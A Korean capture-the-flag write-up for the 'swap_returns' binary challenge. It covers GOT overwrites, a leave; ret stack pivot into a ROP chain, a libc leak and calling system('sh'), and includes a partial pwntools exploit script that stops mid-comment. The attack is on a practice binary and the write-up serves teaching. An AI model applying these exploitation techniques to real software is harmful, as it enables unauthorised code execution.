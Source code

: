 1. `exit()@got`를 `read()@plt`로 덮기. 실제로 디버깅해서 살펴보니 `exit(0)`이 불리기 직전에 `rdi`는 **0**을 나타내고, `rsi`는 `main_rbp-9920`을 나타내며, `rdx`는 **libc**를 가리켰습니다. `exit()`대신에 `read()`가 실행된다면 이제 해당 스택공간은 제꺼가 되는 거지오! 심지어 **bof**가 발생시킬 수 있습니다....아니 있을 거라 생각했슴다... 근데 이상하게 안됩니다.. 머가 문제지... 또륵..ㅠ
2. `exit()@got`를 `main()`시작 주소로 덮기. `exit()`시마다 `main()`을 새로 실행시켜 이전 `main()` 공간 중 `Set()`하는 0x10바이트 공간을 제가 원하는 값을 올려놓고 사용할 수 있습니다! 요 방법으로 계속 밀고 나가겠습니다!

<br/>

크 `main()`문을 계속 부르면서 할당받을 수 있는 0x10 바이트 공간들에 `gadget`으로 사용할 값들을 계속 저장하며 진행합니다. 찾아보니 다행히 `leave; ret;`가 존재하여 `rip`를 **ROP chain**으로 덮고, `exit()`를 `leave; ret;`로 바꿔준다면 해당 **chain**을 실행시킬 수 있습니다. 



요약하자면, 처음에는 공간을 할당하여 `pop rdi; ret;`, `leave; ret;`, `0x4008e9(start_main)`, `puts@plt`, `puts@got`등의  값들을 저장한 뒤, `puts(puts@got)`가 실행되도록 가장 최근 `main()_chunk`의 `rip`부터 **ROP chain**을 만들어준 뒤, `exit()`를 `leave; ret;`로 바꾸어 해당 **ROP chain**를 실행합니다.

여기서 **libc leak**을 할 수가 있고, 이제 `atoi()`함수의 `got`를 알아낸 `system` 주소로 덮습니다. 다시 `exit()`를 `start_main` 으로 바꿔줘서 공간을 할당해준 뒤 사용할 수 있습니다. 그리하야 `system("sh")`를 실행시키면 익스가 가능합니당. `atoi@got`를 `system`으로 덮는 대신 그냥 아까처럼 `rip`를 **ROP chain**으로 덮어도 됩니다.



# exploit

```python
#! /usr/bin/python
from pwn import *

def Set(addr1, addr2):
	r.sendlineafter('Your choice: \n', '1')
	r.sendlineafter('1st address: \n', str(addr1))
	r.sendlineafter('2nd address: \n', str(addr2))


r = process('./swap_returns', env={'LD_PRELOAD':'./libc.so.6'})
#context.log_level = 'debug'
#gdb.attach(r,'b* 0x0000040090A')
libc = ELF('./libc.so.6')

printf_addr = 0x601038
atoi_addr = 0x601050
Set(printf_addr, atoi_addr)

r.sendlineafter('Your choice: \n', '5')
r.sendlineafter('Your choice: \n', '2') # swap
r.sendlineafter('Your choice: \n', '%p')

leak = r.recvuntil('1. Set')
leak = int(leak[:leak.find('1. Set')],16)
success('stack leak = '+hex(leak))
rbp = leak+74
A_addr = rbp-0x20
B_addr = rbp-0x18
log.info('main rbp address = '+hex(rbp))
log.info('stack A address = '+hex(A_addr))
log.info('stack B address = '+hex(B_addr))


r.sendlineafter('1st address: \n', str(printf_addr))
r.sendlineafter('2nd address: \n', str(atoi_addr))
r.sendlineafter('Your choice: \n', '2') # swap


''' find main address in stack
pwndbg> search -x e90840
swap_returns    0x400720 jmp    0xffffffffff40472d
```